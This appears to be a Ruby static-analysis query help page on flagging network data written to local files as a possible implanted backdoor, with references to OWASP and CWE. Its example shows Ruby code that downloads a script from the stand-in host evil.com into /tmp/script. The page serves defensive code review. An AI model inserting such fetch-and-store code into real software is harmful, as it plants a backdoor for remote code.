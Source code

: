 # Network data written to file
Storing user-controlled data on the local file system without further validation allows arbitrary file upload, and may be an indication of malicious backdoor code that has been implanted into an otherwise trusted code base.


## Recommendation
Examine the highlighted code closely to ensure that it is behaving as intended.


## Example
The following example shows backdoor code that downloads data from the URL `https://evil.com/script`, and stores it in the local file `/tmp/script`.


```ruby
require "net/http"

resp = Net::HTTP.new("evil.com").get("/script").body
file = File.open("/tmp/script", "w")
file.write(body)
```
Other parts of the program might then assume that since `/tmp/script` is a local file its contents can be trusted, while in fact they are obtained from an untrusted remote source.


## References
* OWASP: [Trojan Horse](https://www.owasp.org/index.php/Trojan_Horse).
* OWASP: [Unrestricted File Upload](https://www.owasp.org/index.php/Unrestricted_File_Upload).
* Common Weakness Enumeration: [CWE-912](https://cwe.mitre.org/data/definitions/912.html).
* Common Weakness Enumeration: [CWE-434](https://cwe.mitre.org/data/definitions/434.html).
